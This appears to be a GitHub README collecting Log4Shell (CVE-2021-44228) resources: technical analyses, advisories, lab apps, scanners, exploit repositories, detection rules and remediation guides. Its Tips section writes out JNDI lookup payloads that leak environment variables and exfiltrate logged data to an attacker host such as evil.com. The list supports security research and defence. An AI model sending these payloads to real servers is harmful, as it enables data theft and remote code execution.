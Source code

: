 # TL;DR

![log4shell png](https://user-images.githubusercontent.com/35920302/146170447-915c1f09-8b34-4390-8f1b-95f9cf892c7a.jpeg)
[Source: musana.net](https://musana.net/2021/12/13/log4shell-Quick-Guide/)

# Technical analysis
- [Log4j Analysis: More JNDI Injection](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/)
- [Rapid7 analysis](https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis): Includes PoCs for Apache Struts2, VMWare VCenter, Apache James, Apache Solr, Apache Druid, Apache JSPWiki and Apache OFBiz

# Advisories
- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 on NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

# Videos
- [What do you need to know about the log4j (Log4Shell) vulnerability?](https://www.youtube.com/watch?v=oC2PZB5D3Ys) (First 15 min detail offensive side pretty well)
- [Short demo by @MalwareTechBlog](https://www.youtube.com/watch?v=0-abhd-CLwQ)
- [CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ)
- [Log4Shell, The Worst Java Vulnerability in Years](https://www.youtube.com/watch?v=m_AkCbFc8DM)

# Intentionally vulnerable apps
- [PentesterLab Log4j RCE](https://pentesterlab.com/exercises/log4j_rce/course) & [Log4j RCE II](https://pentesterlab.com/exercises/log4j_rce_ii/course)
- [BugHuntr.io scenario](https://twitter.com/BugHuntrIo/status/1469298538593067012)
- [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

# Tools & Exploits
- [tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
- [Thinkst Canary](https://twitter.com/thinkstcanary/status/1469439743905697797)
- [Huntress Log4Shell Tester](https://log4shell.huntress.com)
- [log4shell.nse](https://github.com/righel/log4shell_nse): Nmap NSE script that injects a Huntress/CanaryTokens/custom log4shell payload in HTTP requests described by JSON templates
- [@SilentSignalHU’s Log4Shell Scanner (Burp extension)](https://twitter.com/Burp_Suite/status/1470418532475314177)
- [ActiveScan++](https://twitter.com/albinowax/status/1469258291616403457)
- [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
- [Burp Bounty Pro Profile](https://twitter.com/BurpBounty/status/1469249786092085249)
- [whwlsfb/Log4j2Scan](https://github.com/whwlsfb/Log4j2Scan) (Passive Scanner plugin for Burp)
- [Semgrep rule](https://semgrep.dev/r?q=log4j-message-lookup-injection)
- [CodeQL query](https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql)
- [Nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

# Tips
- The Log4J formatting is nestable which means payloads like `${jndi:ldap://${env:user}.xyz.collab.com/a}` will leak server side env vars! [Source](https://twitter.com/_StaticFlow_/status/1469358229767475205)
- [Tutorial on setting up RogueJDNI](https://twitter.com/ITSecurityguard/status/1469347404986077185)
- [Class path is useful information to have to know what gadgets should be available or where you need to look for some to get rce.](https://twitter.com/jstnkndy/status/1469752457618202624)
- Some events are only logged when an exception ocur, so specially long payloads with unexpected characters may help you trigger those exceptions. [Source](https://twitter.com/pwntester/status/1470435811812380675)
- If you omit the closing brace `}` (so the payload would look like `${jndi:ldap://evil.com/`), you will potentially get a bunch of data exfiltrated to your server until the next `}` appears in that data. [Source](https://twitter.com/TomAnthonySEO/status/1470374984749133825)

# Headers
[TODO]

# Payloads
[TODO]

# WAF bypasses

# Mega threads
- [Reddit mega thread curated by NCC Group](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/)

# Remediation
- [Guide: How To Detect and Mitigate the Log4Shell Vulnerability (CVE-2021-44228)](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)

# Some impacted apps/vendors
- [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)
  - <https://twitter.com/bl4sty/status/1469259842112086024>
  - [Log4j zero-day gets security fix just as scans for vulnerable systems ramp up](https://therecord.media/log4j-zero-day-gets-security-fix-just-as-scans-for-vulnerable-systems-ramp-up/)
- [20211210-TLP-WHITE_LOG4J.md](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
- [ZAP](https://www.zaproxy.org/blog/2021-12-10-zap-and-log4shell/)
- [Ingenuity, the Mars 2020 Helicopter mssion](https://twitter.com/TheASF/status/1400875147163279374)
- [VCenter](https://twitter.com/w3bd3vil/status/1469814463414951937)
- [Ghidra](https://twitter.com/zhuowei/status/1469186818549719042)
- [Apache JAMES SMTP server](https://twitter.com/dlitchfield/status/1469809966785564675)

# TODO
- Add payloads & headers
